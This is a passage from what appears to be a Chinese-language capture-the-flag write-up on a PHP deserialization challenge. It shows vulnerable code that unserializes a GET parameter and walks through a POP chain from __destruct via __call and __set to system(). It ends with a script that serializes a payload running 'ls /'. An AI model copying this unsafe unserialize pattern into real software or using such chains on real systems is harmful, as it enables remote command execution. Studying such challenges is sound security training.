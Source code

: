 ```php
    }


}

class Ha{
    public $start;
    public $start1;
    public $start2;
    public function __construct()
    {
        echo $this->start1."__construct"."</br>";
    }

    public function __destruct()
    {
        if($this->start2==="11111") {
            $this->start1->Love($this->start);
            echo "You are Good!";
        }
    }
}


if(isset($_GET['Ha_rde_r']))
{
    unserialize($_GET['Ha_rde_r']);
} else{
    die("You are Silly goose!");
}
```

<font style="color:rgb(77, 77, 77);">这段代码主要定义了四个类（Rd、Poc、Er、Ha），并通过检查 $_GET 参数来决定是否进行反序列化操作。如果存在特定的 $_GET 参数，则尝试反序列化其值，否则输出 “You are Silly goose!”。</font>

### <font style="color:rgb(77, 77, 77);">构造pop链</font>
1. Ha类里拥有魔术方法__construct，可以锚定开始的点
2. 整个代码里有两种危险函数，一是system()，二是file_get_contents()。由于无法确定flag的位置，所以优先构造system()的pop链

### 解题
<font style="color:rgb(77, 77, 77);">触发Ha类里的__destruct方法后，给start2赋值"11111"，然后进入如下语句：</font>

```plain
$this->start1->Love($this->start);
```

<font style="color:rgb(77, 77, 77);">使得其触发__call方法，然后给start赋值[‘POC’=>‘1111’]</font>  
<font style="color:rgb(77, 77, 77);">进入if语句，然后通过其中的var1触发__set方法</font>  
<font style="color:rgb(77, 77, 77);">然后value就成为了system，修改$Flag就可以修改执行的命令了</font>

<font style="color:rgb(77, 77, 77);">所以可以构造脚本</font>

```php
$a=new Ha();
$a->start2='11111';
$a->start1=new Rd();
$a->start=['POC'=>'1111'];
$a->start1->cl=new Er();
$a->start1->cl->Flag='ls /';
echo serialize($a);
```
